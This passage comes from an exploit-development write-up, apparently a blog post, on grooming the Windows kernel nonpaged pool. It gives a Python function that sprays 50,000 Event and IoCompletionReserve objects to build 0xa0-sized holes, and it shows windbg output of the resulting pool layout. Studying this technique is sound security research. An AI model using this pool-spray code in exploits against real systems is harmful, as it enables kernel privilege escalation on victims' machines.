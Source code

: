 <p class="cn">However, those sizes were no use as they are not modulus with 0x460. After some time testing/playing around, I relized that we can do this:</p>

{% highlight python %}
>>> 0x460 % 0xa0
0
>>>
{% endhighlight %}

<p class="cn">Great! So 0xa0 can be divided evenly into 0x460, but how do we get kernel objects of size 0xa0? Well if we combine the Event and the IoCompletionReserve objects (0x40 + 0x60 = 0xa0) then we can achieve it.</p>

#### The Spray

{% highlight python %}
def we_can_spray():
    """
    Spray the Kernel Pool with IoCompletionReserve and Event Objects. 
    The IoCompletionReserve object is 0x60 and Event object is 0x40 bytes in length.
    These are allocated from the Nonpaged kernel pool.
    """
    handles = []
    IO_COMPLETION_OBJECT = 1
    for i in range(0, 25000):
        handles.append(windll.kernel32.CreateEventA(0,0,0,0))
        hHandle = HANDLE(0)
        handles.append(ntdll.NtAllocateReserveObject(byref(hHandle), 0x0, IO_COMPLETION_OBJECT))

    # could do with some better validation
    if len(handles) > 0:
        return True
    return False
{% endhighlight %}

<p class="cn">This function sprays 50,000 objects. 25,000 Event objects and 25,000 IoCompletionReserve objects. This looks quite pretty in windbg:</p>

{% highlight text %}
kd> !pool 85d1f000
Pool page 85d1f000 region is Nonpaged pool
*85d1f000 size:   60 previous size:    0  (Allocated) *IoCo (Protected)
        Owning component : Unknown (update pooltag.txt)
 85d1f060 size:   60 previous size:   60  (Allocated)  IoCo (Protected)       <--- chunk first allocated in the page
 85d1f0c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f100 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f160 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f1a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f200 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f240 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f2a0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f2e0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f340 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f380 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f3e0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f420 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f480 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f4c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f520 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f560 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f5c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f600 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f660 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f6a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
